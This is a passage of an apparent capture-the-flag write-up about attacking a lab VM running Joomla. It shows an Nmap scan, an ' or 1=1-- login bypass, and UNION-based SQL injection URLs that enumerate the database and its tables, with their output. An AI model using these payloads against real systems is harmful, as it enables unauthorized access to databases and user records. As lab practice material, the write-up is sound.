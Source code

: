 After finishing Nmap scan I've found nothing useful. The open TCP port is only 80. Then let's check it out.

I found that it's some hard-code credential. If I supply **' or 1=1--'** the web site will return with different answer **Ok, nice shot......but, you are looking in a wrong place bro! ;-)**.

I run Nmap with **nmap -sV -A --script vuln -p- -v 192.168.175.141** again and then the TCP 666 is suddenly open.

After site crawling I found a URL which is vulnerable to SQLi.
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,2--&letter=A
```



## __Exploit__

The following are SQLi statement and the result
* Current database
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,database() FROM information_schema.schemata--&letter=A

joomla
```

* List database
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,group_concat(schema_name)--&letter=A
```

* List table in database joomla
```
http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=CHAR(106, 111, 111, 109, 108, 97)--&letter=A

http://192.168.175.141:666/index.php?option=com_abc&view=abc&Itemid=3&sectionid=1 union select 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=CHAR(106, 111, 111, 109, 108, 97) AND table_name NOT IN ("jos_banner","jos_bannerclient","jos_bannertrack","jos_categories","jos_components","jos_contact_details","jos_content","jos_content_frontpage","jos_content_rating","jos_core_acl_aro","jos_core_acl_aro_groups","jos_core_acl_aro_map","jos_core_acl_aro_sections","jos_core_acl_groups_aro_map","jos_core_log_items","jos_core_log_searches","jos_groups","jos_menu","jos_menu_types")--&letter=A

jos_messages,jos_messages_cfg,jos_migration_backlinks,jos_modules,jos_modules_menu,jos_newsfeeds,jos_plugins,jos_poll_data,jos_poll_date,jos_poll_menu,jos_polls,jos_sections,jos_session,jos_stats_agents,jos_template_banner,jos_templates_menu,jos_users,jos_weblinks

Tables:
jos_banner
jos_bannerclient
jos_bannertrack
jos_categories
jos_components
jos_contact_details
jos_content
jos_content_frontpage
jos_content_rating
jos_core_acl_aro
jos_core_acl_aro_groups
jos_core_acl_aro_map
jos_core_acl_aro_sections
jos_core_acl_groups_aro_map
jos_core_log_items
```